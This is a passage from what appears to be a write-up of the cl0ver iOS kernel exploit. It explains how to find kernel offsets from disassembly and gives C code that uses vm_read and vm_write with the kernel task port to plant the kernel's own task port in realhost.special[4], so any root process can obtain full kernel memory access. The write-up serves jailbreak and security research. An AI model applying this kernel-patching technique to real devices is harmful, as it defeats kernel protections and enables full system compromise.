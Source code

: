 ~~~*Note: I planned for an offset finder to be implemented in [`find.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/find.c), but I haven't gotten round to it. I'm just lining out how the addresses could be found.*~~~
        0xffffff8004069f58      f44f43a9       ldp x20, x19, [sp, 0x30] ; [0x30:4]=0 ; '0'
        0xffffff8004069f5c      f65742a9       ldp x22, x21, [sp, 0x20] ; [0x20:4]=25
        0xffffff8004069f60      f85f41a9       ldp x24, x23, [sp, 0x10] ; [0x10:4]=13
        0xffffff8004069f64      fa67c5a8       ldp x26, x25, [sp], 0x50
        0xffffff8004069f68      c0035fd6       ret

    And `host_get_special_port()` loads from `realhost.special` right after the first `bl`:

        0xffffff800402fd20      3a230394       bl sym._lck_mtx_lock
        0xffffff800402fd24      282b0090       adrp x8, 0xffffff8004593000
        0xffffff800402fd28      08813a91       add x8, x8, 0xea0
        0xffffff800402fd2c      08cd358b       add x8, x8, w21, sxtw 3
        0xffffff800402fd30      151144f9       ldr x21, [x8, 0x820] ; [0x820:4]=0

    Where `0xffffff8004593ea0` is `realhost`, and `0xffffff8004593ea0 + 0x820 = 0xffffff80045946c0` subsequently `realhost.special`.

-   `is_io_service_open_extended` stack size  
    The function contains the only reference within the kernel to the string `"IOUserClientCrossEndian"`. Once we find the reference, we find the function and can derive the stack size from the code.

-   `OSUnserializeXML` stack size and return address  
    The function contains the only reference within the kernel to `"/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.60.9/libkern/c++/OSSerializeBinary.cpp"`.  
    Stack size is trivial, the return address is from the `ret` instruction backwards until `0` is moved into the register that is subsequently moved to `x0`.

## Part Four: Patching the kernel

The patch we're gonna apply is as follows:

    realhost.special[4] = kernel_task->itk_self;

With access to the kernel task port, applying that patch is a simple matter of using `vm_read` and `vm_write` (omitted error handling):

    addr_t *special = (addr_t*)offsets.slid.data_realhost_special;
    vm_address_t kernel_task_addr,
                 kernel_self_port_addr;
    vm_size_t size;

    // Get address of kernel task
    size = sizeof(kernel_task_addr);
    vm_read_overwrite(kernel_task, (vm_address_t)offsets.slid.data_kernel_task, sizeof(kernel_task_addr), (vm_address_t)&kernel_task_addr, &size);

    // Get address of kernel task/self port
    size = sizeof(kernel_self_port_addr);
    vm_read_overwrite(kernel_task, kernel_task_addr + offsets.unslid.off_task_itk_self, sizeof(kernel_self_port_addr), (vm_address_t)&kernel_self_port_addr, &size);

    // Write to realhost.special[4]
    vm_write(kernel_task, (vm_address_t)(&special[4]), (vm_address_t)&kernel_self_port_addr, sizeof(kernel_self_port_addr));

This isn't technically true to the name "tfp0", but it allows any binary running as root to retrieve the kernel task port via

    host_get_special_port(mach_host_self(), HOST_LOCAL_NODE, 4, &kernel_task);

*The full implementation of this can be found in the `patch_host_special_port_4` function in [`exploit.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/exploit.c)*

~~~